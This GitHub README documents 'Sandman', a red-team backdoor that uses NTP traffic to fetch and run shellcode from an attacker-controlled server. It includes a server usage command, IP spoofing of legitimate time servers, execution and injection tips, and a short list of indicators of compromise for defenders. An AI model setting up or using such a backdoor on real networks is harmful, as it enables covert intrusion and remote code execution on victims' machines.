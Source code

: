 # Sandman

![Image](https://img.shields.io/badge/C%23-239120?style=for-the-badge&logo=c-sharp&logoColor=white") ![image](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white) ![image](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)

Sandman is a backdoor that meant to work on hardened networks during red team engagements.

Sandman works as a stager and leverages NTP (protocol to sync time & date) to get and run an arbitrary **shellcode** from a pre defined server.

Since NTP is a protocol that is overlooked by many defenders resulting wide network accessability.

## Usage

![sandman](images/sandman.png)

### SandmanServer (Usage)

Run on windows / *nix machine:

```sh
python3 sandman_server.py "Network Adapter" "Payload Url" "optional: ip to spoof"
```

- Network Adapter: The adapter that you want the server to listen on (for example: Ethernet for Windows, eth0 for *nix).

- Payload Url: The URL to your shellcode, it could be your agent (for example, CobaltStrike or meterpreter) or another stager.

- IP to Spoof: If you want to spoof a legitiment IP address (for example, time.microsoft.com's ip address).

### SandmanBackdoor (Usage)

To start, you can compile the SandmanBackdoor as [mentioned below](#setup), because it is a single lightweight C# executable you can execute it via ExecuteAssembly, run it as a NTP provider or just execute / inject it.

**NOTE: Make sure you are compiling with the x64 option and not the any cpu option!**

## Capabilities

- Getting and executing an arbitrary payload from an attacker's controlled server.

- Can work on hardened networks since NTP is usually allowed in FW.

- Impsersonating a legitiment NTP server via IP spoofing.

## Setup

### SandmanServer (Setup)

- Python 3.9
- Requiremenets specified in the [requirements](/SandmanServer/requirements.txt) file.

### SandmanBackdoor (Setup)

To compile the backdoor itself I used Visual Studio 2022, but as mentioned in the [usage section](#usage) it can be compiled with both VS2022 and csc.

## IOCs

- A shellcode is injected to RuntimeBroker.

- Suspicious NTP communication, starts with known magic header.

- YARA rule.

## Contributes

- [Orca](https://github.com/ORCx41/)

- Special thanks to [Tim McGuffin](https://twitter.com/NotMedic) for the time [provider idea](https://twitter.com/NotMedic/status/1561354598744473601).

Thanks to who already contributed and I'll happily accept contribution, make a pull request and I will review it!
